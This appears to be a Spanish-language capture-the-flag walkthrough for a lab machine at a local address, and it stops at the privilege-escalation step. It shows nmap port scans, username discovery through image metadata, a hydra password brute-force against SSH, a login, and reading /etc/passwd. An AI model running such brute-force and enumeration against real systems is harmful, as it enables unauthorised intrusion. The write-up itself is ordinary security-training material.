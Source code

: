 ### Maquina borazuwarahctf

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

![alt text](image-4.png)

## Entramos en la web

http://172.17.0.2

y vemos una imagen, la descargamos:

![alt text](image-5.png)

wget http://172.17.0.2/imagen.jpeg

exiftool imagen.jpeg

![alt text](image-6.png)

hacemos un ataque con hydra a ssh

hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

![alt text](image-7.png)


## Intrusion 
entramos por ssh con las credenciales encontradas

ssh borazuwarah@172.17.0.2 -> 123456

hacemos un cat /etc/passwd | grep bash -> para ver los usuarios en el Sistema Operativo

root:x:0:0:root:/root:/bin/bash
borazuwarah:x:1000:1000::/home/borazuwarah:/bin/bash

## Escalar privilegios

hacemos un sudo -l

![alt text](image-8.png)